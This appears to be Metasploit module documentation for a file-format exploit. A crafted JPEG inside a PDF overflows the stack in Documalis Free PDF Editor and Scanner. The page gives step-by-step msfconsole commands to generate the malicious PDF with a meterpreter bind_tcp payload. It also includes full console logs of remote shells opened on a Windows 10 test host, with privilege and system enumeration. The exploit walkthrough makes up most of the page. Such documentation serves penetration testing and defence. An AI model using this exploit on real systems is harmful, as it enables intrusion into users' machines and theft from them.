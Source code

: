 ## Vulnerable Application

  Documalis Free PDF Editor version 5.7.2.26 and Documalis Free PDF Scanner version 5.7.2.122 do not appropriately
  validate the contents of JPEG images contained within a PDF. Attackers can exploit this vulnerability to trigger
  a buffer overflow on the stack and gain remote code execution as the user running the Documalis Free PDF
  Editor or Documalis Free PDF Scanner software.

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/documalis_pdf_editor_and_scanner`
   4. Do: `set TARGET 0` for Documalis Free PDF Editor or `set TARGET 1` for Documalis Free PDF Scanner
   5. Do: `set payload windows/meterpreter/bind_tcp`
   6. Do: `set RHOST [Target IP]`
   7. Do: `set LPORT [Port to make the target host listen on]`
   9. Do: `run`
   10. Do: `use exploit/multi/handler`
   11. Do: `set payload windows/meterpreter/bind_tcp`
   12. Do: `set RHOST [Target IP]`
   13. Do: `set LPORT [Same port as before, this will be the port the target is listening on]`
   13. Do: `run`
   14. Copy the generated file to the target machine
   15. For Documalis Free PDF Editor, drag and drop the PDF to open it. For Documalis Free PDF Scanner, select the Add
       button on the right side of the screen and then select the malicious PDF file from the file prompt.
   16. You should get a shell as the user running either Documalis Free PDF Scanner or Documalis Free PDF
       Editor (depending on which software was exploited).

## Options
### FILENAME
  Name of the PDF file that Metasploit will generate. This will default to "msf.pdf", but can be changed.

## Scenarios

### Documalis Free PDF Editor v5.7.2.26 on Windows 10 x64 v2004
```
msf > use exploit/windows/fileformat/documalis_pdf_editor_and_scanner
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set TARGET 0
TARGET => 0
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set LPORT 6655
LPORT => 6655
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > show options

Module options (exploit/windows/fileformat/documalis_pdf_editor_and_scanner):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FILENAME          msf.pdf          no        The file name.
   PDF::Encoder      ASCIIHEX         yes       Select encoder for JavaScript Stream, valid values are ASCII85, FLATE, and ASCIIHEX
   PDF::Method       DOCUMENT         yes       Select PAGE, DOCUMENT, or ANNOTATION
   PDF::MultiFilter  1                yes       Stack multiple encodings n times
   PDF::Obfuscate    true             yes       Whether or not we should obfuscate the output


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     6655             yes       The listen port
   RHOST     172.26.215.55    no        The target address

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Documalis Free PDF Editor v.5.7.2.26 / Win 7, Win 10

msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > exploit

[+] msf.pdf stored at /home/gwillcox/.msf4/local/msf.pdf
[*] Started bind TCP handler against 172.26.215.55:6655
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > use multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(multi/handler) > set LPORT 6655
LPORT => 6655
msf exploit(multi/handler) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.215.55:6655
[*] Sending stage (176195 bytes) to 172.26.215.55
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.26.215.55:6655) at 2020-07-31 17:05:06 -0500

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

### Documalis Free PDF Scanner v5.7.2.122 on Windows 10 x64 v2004
```
msf > use exploit/windows/fileformat/documalis_pdf_editor_and_scanner
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set TARGET 1
TARGET => 1
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set LPORT 7788
LPORT => 7788
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > show options

Module options (exploit/windows/fileformat/documalis_pdf_editor_and_scanner):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FILENAME          msf.pdf          no        The file name.
   PDF::Encoder      ASCIIHEX         yes       Select encoder for JavaScript Stream, valid values are ASCII85, FLATE, and ASCIIHEX
   PDF::Method       DOCUMENT         yes       Select PAGE, DOCUMENT, or ANNOTATION
   PDF::MultiFilter  1                yes       Stack multiple encodings n times
   PDF::Obfuscate    true             yes       Whether or not we should obfuscate the output


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     7788             yes       The listen port
   RHOST     172.26.215.55    no        The target address

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   1   Documalis Free PDF Scanner v.5.7.2.122 / Win 7, Win 10


msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > exploit

[+] msf.pdf stored at /home/gwillcox/.msf4/local/msf.pdf
[*] Started bind TCP handler against 172.26.215.55:7788
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > use multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(multi/handler) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf exploit(multi/handler) > set LPORT 7788
LPORT => 7788
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.215.55:7788
[*] Sending stage (176195 bytes) to 172.26.215.55
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.26.215.55:7788) at 2020-07-31 17:31:35 -0500

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```
